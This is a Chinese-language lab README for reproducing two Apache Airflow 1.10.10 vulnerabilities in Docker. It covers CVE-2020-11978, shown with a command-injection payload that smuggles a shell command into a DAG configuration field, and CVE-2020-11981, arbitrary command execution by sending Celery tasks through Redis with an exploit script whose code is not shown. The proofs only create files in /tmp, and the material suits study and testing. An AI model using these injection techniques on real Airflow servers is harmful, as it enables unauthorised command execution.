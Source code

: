 # Airflow 1.10.10 多个漏洞利用

airflow是一款开源的，分布式任务调度框架，它将一个具有上下级依赖关系的工作流，组装成一个有向无环图。

docker-compose文件由airflow 2.x提供的docker-compose文件修改而来。

Airflow的配置中使用CeleryExecutor进行任务执行，所以命令执行结果需要在CeleryWorker所在容器中进行查看。

由于启动的组件比较多，可能会有点卡，虚拟机使用请准备2G以上的内存。

## 漏洞环境

依次执行如下命令启动airflow 1.10.10

```bash
#初始化数据库
docker-compose run airflow-init initdb
#启动服务
docker-compsoe up -d
```

## 漏洞复现

### CVE-2020-11978 示例dag中的命令注入

访问`http://主机:8080`进入airflow管理端，将`example_trigger_target_dag`前面的Off改为On：

![image-20210701142307744](README.assets/image-20210701142307744.png)

再点击执行按钮，在`Configuration JSON`中输入：`{"message":"'\";touch /tmp/airflow_dag_success;#"}`,再点`Trigger`执行dag

![image-20210701142758977](README.assets/image-20210701142758977.png)

等几秒可以看到执行`success`了

![image-20210701142948275](README.assets/image-20210701142948275.png)

到CeleryWorker容器中进行查看：

```bash
docker-compose exec airflow-worker ls -l /tmp
```

可以看到成功创建了airflow_dag_success文件

![image-20210701143152868](README.assets/image-20210701143152868.png)

### CVE-2020-11981 利用Celery进行命令执行

（其实这个还有默认配置中的各种未授权问题的结合利用）

airflow使用Celery 4.0以上的版本，所以没法通过pickle反序列化漏洞进行利用，但可以通过下发自带启动Task用的`airflow.executors.celery_executor.execute_command`任务来执行任意命令，参数为命令执行中所需要的数组。

漏洞利用脚本`exploit_airflow_celery.py`仅支持在python3下使用,默认执行命令`touch /tmp/airflow_celery_success`

```bash
pip install redis
python exploit_airflow_celery.py [主机IP]
```

查看结果：

```bash
docker-compose logs airflow-worker
```

可以看到如下任务消息：

![image-20210701153205499](README.assets/image-20210701153205499.png)

```bash
docker-compose exec airflow-worker ls -l /tmp
```

可以看到成功创建了文件`airflow_celery_success`

![image-20210701153237894](README.assets/image-20210701153237894.png)

## 参考

https://xz.aliyun.com/t/8037

https://lists.apache.org/thread.html/r7255cf0be3566f23a768e2a04b40fb09e52fcd1872695428ba9afe91%40%3Cusers.airflow.apache.org%3E

https://docs.celeryproject.org/en/stable/userguide/configuration.html

https://www.bookstack.cn/read/celery-3.1.7-zh/8d5b10e3439dbe1f.md#dhfmrk

https://docs.celeryproject.org/en/stable/userguide/calling.html#serializers

https://www.jianshu.com/p/52552c075bc0

https://www.runoob.com/w3cnote/python-redis-intro.html

https://blog.csdn.net/SKI_12/article/details/85015803

